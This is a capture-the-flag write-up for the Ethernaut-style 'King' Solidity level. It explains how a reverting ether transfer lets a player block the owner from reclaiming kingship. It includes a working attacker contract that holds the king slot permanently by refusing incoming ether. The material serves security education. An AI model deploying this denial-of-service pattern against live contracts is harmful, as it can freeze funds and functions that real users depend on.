 # King

This level represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process!
The goal is to break it (When submitting the instance back to the level, the level is going to reclaim kingship. We will beat the level if we can avoid such a self proclamation.)

## Code Breakdown

```solidity
  address king;
  uint public prize;
  address public owner;
```

The contract has 2 public variables `prize` and `owner` that store the current prize amount and the contract's owner, and one internal address `king` that stores the current king of the game. All are set at contract's creation.

```solidity
constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }
```

the `constructor()`  sets the `king` and `prize` variables to the address and value of the transaction that created the contract.

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

the receive function allows players to send transactions to the contract and become the new `king` if the value of their transaction is greater than or equal to the current `prize` amount, or if they are the contract owner. When a player becomes the new `king`, the contract transfers the value of the transaction to the previous `king` and updates the `prize` and `king` variables with the new values.

```solidity
function _king() public view returns (address) {
    return king;
  }
```

The contract also has a public function called `_king` that returns the address of the current `king`. This function can be called by other contracts or external users to get the current `king` of the game.

## Level Completion

It seems that the owner can always call `receive()` and reclaim the king status no matter what.
So how can we stop it from doing so?
The answer lies in this line of code :
```solidity
payable(king).transfer(msg.value);
```
the line that sends ether to the previous `king`.
From the [solidity docs](https://docs.soliditylang.org/en/v0.8.17/contracts.html?highlight=transfer#receive-ether-function), we know that ***if a contract has no `receive()` nor a payable `fallback()` function is present, the contract cannot receive Ether through regular transactions and throws an exception.***
That means if the exception is thrown, the code after (where the new king and prize are set) will not be executed.

Let's create a contract on [Remix IDE](https://remix.ethereum.org/):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingHack {
  // this contract has no receive() nor fallback() function so it can't receive ether back
  function hack(address payable _to) public payable{
    (bool sent, ) = _to.call{value: msg.value}(""); // send msg.value to the game instance
    require(sent, "Ether not sent!");
  }
}
```
After deploying this contract, let's call `hack()` with a value of wei more or equal than `prize` and with the game instance as argument to claim `king`.

